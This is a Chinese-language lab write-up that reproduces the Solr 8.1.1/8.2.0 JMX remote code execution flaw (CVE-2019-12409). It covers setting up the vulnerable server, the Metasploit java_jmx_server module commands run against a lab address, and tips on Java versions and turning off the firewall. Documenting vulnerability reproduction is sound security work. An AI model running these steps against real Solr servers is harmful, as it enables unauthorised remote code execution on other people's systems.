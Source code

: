 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/ ，如下图所示环境配置完成：  
![image](./1.png)  

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1
Solr 8.2.0

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run  
![image](./2.png)


# 0x05 踩坑记录
坑1：  
在kali下搭建的漏洞环境run多次后一直失败，经查看发现kali下的java版本是openjdk version "11.0.6" 2020-01-14，怀疑可能是java版本过高导致的利用失败，故在ubuntu16.04_x64_en-us下使用java8重新搭建solr-8.2.0.zip，漏洞利用成功。
看过别人在java10下也有利用成功的文章，怀疑可能exp针对java10及以下的版本才有效。  
坑2：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 参考链接
https://github.com/jas502n/CVE-2019-12409
